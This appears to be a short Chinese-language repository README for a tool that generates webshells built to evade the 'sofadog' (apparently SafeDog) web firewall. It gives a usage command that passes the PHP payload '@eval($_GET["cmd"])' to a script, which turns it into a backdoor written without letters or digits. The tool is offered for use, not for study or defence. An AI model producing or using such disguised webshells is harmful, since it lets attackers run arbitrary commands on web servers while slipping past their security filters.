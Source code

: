 # training
bypass_webshell里面是绕过sofadog的webshell
用法： python.exe fuckdogwebshell.py '@eval($_GET["cmd"])'，可以生产无字符型后门。

